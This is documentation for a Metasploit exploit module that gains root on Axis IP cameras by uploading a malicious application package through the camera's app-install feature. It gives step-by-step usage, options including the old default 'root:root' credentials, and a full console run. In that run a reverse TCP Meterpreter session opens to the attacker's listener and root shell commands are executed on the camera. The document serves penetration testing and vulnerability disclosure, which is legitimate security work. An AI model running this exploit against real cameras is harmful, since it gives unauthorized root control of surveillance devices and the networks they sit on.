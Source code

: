 ## Vulnerable Application

### Description

This module exploits the "Apps" feature in Axis IP cameras. The feature allows third party
developers to upload and execute 'eap' applications on the device. The system does not validate
the application comes from a trusted source, so a malicious attacker can upload and execute
arbitrary code. The issue has no CVE, although the technique was made public in 2018.

This module uploads and executes stageless meterpreter as `root` via the application upload
feature. The module will also uninstall the application upon completion. Uploading the application
requires valid credentials. The default administrator credentials used to be `root:root` but
newer firmware versions force users to provide a new password for the `root` user.

The module was tested on an Axis M3044-V using the latest firmware (9.80.3.8: December 2021).
All devices that support the "App" feature are presumed to be vulnerable at this time.

### Installation

Axis cameras are physical devices and aren't known to have been successfully emulated. However,
if you have a device, affected firmware can be downloaded from:

* https://www.axis.com/

A free account is required to navigate the site but you can download specific firmware without
authentication. For example, the latest version for the Axis M3044-V can be downloaded here:

* https://www.axis.com/ftp/pub/axis/software/MPQT/M3044-V/9_80_3_8/M3044-V_9_80_3_8.bin

## Verification Steps

* Acquire an affected device
* Do: `use exploit/linux/http/axis_app_install`
* Do: `set RHOST <ip>`
* Do: `set PASSWORD <password>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a Meterpreter session.

## Options

### USERNAME

The username to authenticate to the web server with. The default value is "root".

### PASSWORD

The password to authenticate to the web server with. The default value is "root".

## Scenarios

### Axis M3044-V using firmware 9.80.3.8. Get Meterpreter session.

```
msf6 > use exploit/linux/http/axis_app_install
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/axis_app_install) > options

Module options (exploit/linux/http/axis_app_install):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   root             yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   root             yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Dropper


msf6 exploit(linux/http/axis_app_install) > set RHOST 192.168.1.183
RHOST => 192.168.1.183
msf6 exploit(linux/http/axis_app_install) > check
[*] 192.168.1.183:80 - The target is not exploitable. The user provided credentials did not work.
msf6 exploit(linux/http/axis_app_install) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/axis_app_install) > check
[*] 192.168.1.183:80 - The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'.
msf6 exploit(linux/http/axis_app_install) > set LHOST 192.168.1.217
LHOST => 192.168.1.217
msf6 exploit(linux/http/axis_app_install) > run

[*] Started reverse TCP handler on 192.168.1.217:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'.
[*] Creating an application package named: jtn
[*] Sending an application upload request to /axis-cgi/packagemanager.cgi
[+] Application installed. Pausing 5 seconds to let the filesystem sync.
[+] Deleted /etc/systemd/system/jtn.service
[*] Meterpreter session 1 opened (192.168.1.217:4444 -> 192.168.1.183:49602 ) at 2022-02-24 18:45:19 -0800
[*] Sending a delete application request to /axis-cgi/applications/control.cgi
[+] The application jtn was successfully removed from the target!

meterpreter > getuid
Server username: root
meterpreter > shell
Process 13863 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
cat /proc/cpuinfo
processor	: 0
model name	: ARMv7 Processor rev 1 (v7l)
BogoMIPS	: 156.00
Features	: half thumb fastmult vfp edsp neon vfpv3 tls vfpd32 
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x4
CPU part	: 0xc09
CPU revision	: 1

Hardware	: Ambarella S2L (Flattened Device Tree)
Revision	: 0000
Serial		: 0000000000000000
pwd
/
```
